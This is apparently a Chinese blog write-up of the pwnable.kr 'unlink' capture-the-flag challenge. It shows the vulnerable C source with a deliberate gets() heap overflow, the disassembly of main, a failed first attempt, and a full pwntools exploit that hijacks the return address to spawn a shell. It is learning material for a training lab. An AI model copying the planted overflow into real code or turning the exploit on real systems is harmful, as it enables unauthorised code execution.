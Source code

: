 ```yaml
---
layout:     post
title:      "pwnable.kr之unlink"
subtitle:   " 堆还是栈？ "
date:       2018-07-21 12:00:00
author:     "b0ldfrev"
catalog: true
tags:
    - Pwn
    - pwnable.kr
 
---
```


>题目地址：[http://pwnable.kr/play.php](http://pwnable.kr/play.php)

>连接  ssh unlink@pwnable.kr -p2222 (pw: guest)

## 0x01 程序分析

它直接给出了源代码unlink.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ{
        struct tagOBJ* fd;
        struct tagOBJ* bk;
        char buf[8];
}OBJ;

void shell(){
        system("/bin/sh");
}

void unlink(OBJ* P){
        OBJ* BK;
        OBJ* FD;
        BK=P->bk;
        FD=P->fd;
        FD->bk=BK;
        BK->fd=FD;
}
int main(int argc, char* argv[]){
        malloc(1024);
        OBJ* A = (OBJ*)malloc(sizeof(OBJ));
        OBJ* B = (OBJ*)malloc(sizeof(OBJ));
        OBJ* C = (OBJ*)malloc(sizeof(OBJ));

        // double linked list: A <-> B <-> C
        A->fd = B;
        B->bk = A;
        B->fd = C;
        C->bk = B;

        printf("here is stack address leak: %p\n", &A);
        printf("here is heap address leak: %p\n", A);
        printf("now that you have leaks, get shell!\n");
        // heap overflow!
        gets(A->buf);
         
        // exploit this unlink!
        unlink(B);
        return 0;
}

```


可以看出这段代码模仿了堆的一些实现,模拟的 Unlink 堆溢出漏洞。最后打印出A变量栈中地址和heap指向分配的mem地址,让你get shell.

main函数汇编代码如下：

```nasm
.text:0804852F ; int __cdecl main(int argc, const char **argv, const char **envp)
.text:0804852F                 public main
.text:0804852F main            proc near               ; DATA XREF: _start+17↑o
.text:0804852F
.text:0804852F var_14          = dword ptr -14h
.text:0804852F var_10          = dword ptr -10h
.text:0804852F var_C           = dword ptr -0Ch
.text:0804852F var_4           = dword ptr -4
.text:0804852F argc            = dword ptr  8
.text:0804852F argv            = dword ptr  0Ch
.text:0804852F envp            = dword ptr  10h
.text:0804852F
.text:0804852F ; __unwind {
.text:0804852F                 lea     ecx, [esp+4]
.text:08048533                 and     esp, 0FFFFFFF0h
.text:08048536                 push    dword ptr [ecx-4]
.text:08048539                 push    ebp
.text:0804853A                 mov     ebp, esp
.text:0804853C                 push    ecx
.text:0804853D                 sub     esp, 14h
.text:08048540                 sub     esp, 0Ch
.text:08048543                 push    400h            ; size
.text:08048548                 call    _malloc
.text:0804854D                 add     esp, 10h
.text:08048550                 sub     esp, 0Ch
.text:08048553                 push    10h             ; size
.text:08048555                 call    _malloc
.text:0804855A                 add     esp, 10h
.text:0804855D                 mov     [ebp+var_14], eax
.text:08048560                 sub     esp, 0Ch
.text:08048563                 push    10h             ; size
.text:08048565                 call    _malloc
.text:0804856A                 add     esp, 10h
.text:0804856D                 mov     [ebp+var_C], eax
.text:08048570                 sub     esp, 0Ch
.text:08048573                 push    10h             ; size
.text:08048575                 call    _malloc
.text:0804857A                 add     esp, 10h
.text:0804857D                 mov     [ebp+var_10], eax
.text:08048580                 mov     eax, [ebp+var_14]
.text:08048583                 mov     edx, [ebp+var_C]
.text:08048586                 mov     [eax], edx
.text:08048588                 mov     edx, [ebp+var_14]
.text:0804858B                 mov     eax, [ebp+var_C]
.text:0804858E                 mov     [eax+4], edx
.text:08048591                 mov     eax, [ebp+var_C]
.text:08048594                 mov     edx, [ebp+var_10]
.text:08048597                 mov     [eax], edx
.text:08048599                 mov     eax, [ebp+var_10]
.text:0804859C                 mov     edx, [ebp+var_C]
.text:0804859F                 mov     [eax+4], edx
.text:080485A2                 sub     esp, 8
.text:080485A5                 lea     eax, [ebp+var_14]
.text:080485A8                 push    eax
.text:080485A9                 push    offset format   ; "here is stack address leak: %p\n"
.text:080485AE                 call    _printf
.text:080485B3                 add     esp, 10h
.text:080485B6                 mov     eax, [ebp+var_14]
.text:080485B9                 sub     esp, 8
.text:080485BC                 push    eax
.text:080485BD                 push    offset aHereIsHeapAddr ; "here is heap address leak: %p\n"
.text:080485C2                 call    _printf
.text:080485C7                 add     esp, 10h
.text:080485CA                 sub     esp, 0Ch
.text:080485CD                 push    offset s        ; "now that you have leaks, get shell!"
.text:080485D2                 call    _puts
.text:080485D7                 add     esp, 10h
.text:080485DA                 mov     eax, [ebp+var_14]
.text:080485DD                 add     eax, 8
.text:080485E0                 sub     esp, 0Ch
.text:080485E3                 push    eax             ; s
.text:080485E4                 call    _gets
.text:080485E9                 add     esp, 10h
.text:080485EC                 sub     esp, 0Ch
.text:080485EF                 push    [ebp+var_C]
.text:080485F2                 call    unlink
.text:080485F7                 add     esp, 10h
.text:080485FA                 mov     eax, 0
.text:080485FF                 mov     ecx, [ebp-4]
.text:08048602                 leave
.text:08048603                 lea     esp, [ecx-4]
.text:08048606                 retn
.text:08048606 ; } // starts at 804852F
.text:08048606 main            endp

```

## 0x01 漏洞分析之折腾

明显程序在 gets(A->buf) 处有堆溢出，一开始我走偏了，狠狠折腾了一番。我的思路是他泄露了&A即栈地址，根据栈地址能算出ret时esp指向的栈顶地址，这个偏移是不会随着系统的aslr变化的。所以我找出了ret 时esp相对于&A的偏移 0x28 。知道了 ret 时的栈顶有什么用呢？ 只要用gets伪造好数据，调用unlink函数的时候就可以替换地址，我要做的就是将 B堆空间的fd替换成ret-4地址，bk替换成shell函数地址，payload如下：

	payload="a"*8+p32(0)+p32(0x19)+p32(ret-4)+p32(shell_addr)

这样unlink后

	*(ret-4+4)=*(ret)=栈顶内容=shell_addr 
	*(shell_addr)=ret-4

这样当程序执行到main函数ret的时候，就能成功返回到我的shell地址，

我本以为这样就能成功拿shell，结果我忽略了一个问题。那就是*(shell_addr)=ret-4 这个地方已经破坏了shell函数的代码段  /(ㄒoㄒ)/  失败告终。


## 0x02 再次分析

后来发现main函数结尾那里，

```nasm
.text:080485FF                 mov     ecx, [ebp-4]
.text:08048602                 leave
.text:08048603                 lea     esp, [ecx-4]
.text:08048606                 retn
```

会将**[ecx-4]**写入**esp**，只要我们可控制 **ecx**内容就能控制返回地址。再看上面有**mov  ecx,[ebp-4]** 这样一段代码，只有我们可以控制**[ebp-4]**的内容就能控制**ecx**内容。

经调试发现**ebp-4=&A + 0x10** 代码有两次取地址内容，根据泄露的A的heap地址 ， heap地址下面（高处）即是gets()输入的内存空间，所以我们又构造 **heap+12=shell_addr+4**

这样我们就将（shell的地址 + 4）写入（ebp-4的内存中）也就是将 A+12 的值写入 &A + 0x10的内存中，返回时便控制了eip。

## 0x03 完整exp

```python
from pwn import *
context(os='linux', log_level='debug')
p=process("./unlink")
shell_addr=0x80484eb
stack_addr=p.recvline()
stack_addr=stack_addr.split(": 0x")[1][:-1]
stack_addr=int(stack_addr,16)

heap_addr=p.recvline()
heap_addr=heap_addr.split(": 0x")[1][:-1]
heap_addr=int(heap_addr,16)

p.recvuntil("get shell!\n")
payload=p32(shell_addr)+"a"*12+p32(heap_addr+12)+p32(stack_addr+16)
p.sendline(payload)
p.interactive()
```

>[文件下载](https://github.com/yxshyj/project/tree/master/pwn/pwnable.kr%E4%B9%8Bunlink)